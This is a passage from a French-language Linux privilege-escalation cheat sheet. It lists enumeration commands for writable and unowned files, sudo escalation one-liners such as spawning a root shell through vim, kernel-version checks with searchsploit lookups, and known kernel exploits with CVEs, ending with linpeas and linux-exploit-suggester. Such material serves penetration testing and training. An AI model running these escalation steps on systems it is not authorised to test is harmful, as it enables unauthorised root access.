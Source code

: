 ## 📂 Permissions et Configurations

### Fichiers world-writable
```bash
# Fichiers modifiables par tous
find / -perm -o+w -type f 2>/dev/null
find / -perm -002 -type f 2>/dev/null

# Répertoires world-writable
find / -perm -o+w -type d 2>/dev/null

# Fichiers sans propriétaire
find / -nouser -o -nogroup 2>/dev/null
```

### Configuration sudo dangereuse
```bash
# Vérifier sudo -l pour:
# (ALL) NOPASSWD: ALL
# User_Alias avec privilèges
# Wildcards dangereux

# Exemples d'exploitation sudo
sudo -u root /bin/bash
sudo -u root su -

# GTFOBins pour binaires sudo
# Si sudo vim disponible:
sudo vim -c ':!/bin/bash'
```

## 🐛 Vulnérabilités Kernel

### Identification version kernel
```bash
uname -a
cat /proc/version
lsb_release -a

# Recherche d'exploits kernel
searchsploit kernel $(uname -r)
searchsploit ubuntu $(lsb_release -r | awk '{print $2}')
```

### Exploits kernel courants
```bash
# DirtyCow (CVE-2016-5195)
# Kernel 2.6.22 - 4.8.3

# Overlayfs (CVE-2015-1328)
# Ubuntu 12.04, 14.04, 14.10, 15.04

# RDS (CVE-2010-3904)
# Kernel <= 2.6.36-rc8

# Vérifier avec exploit-suggester
./linux-exploit-suggester.sh
./linpeas.sh
```
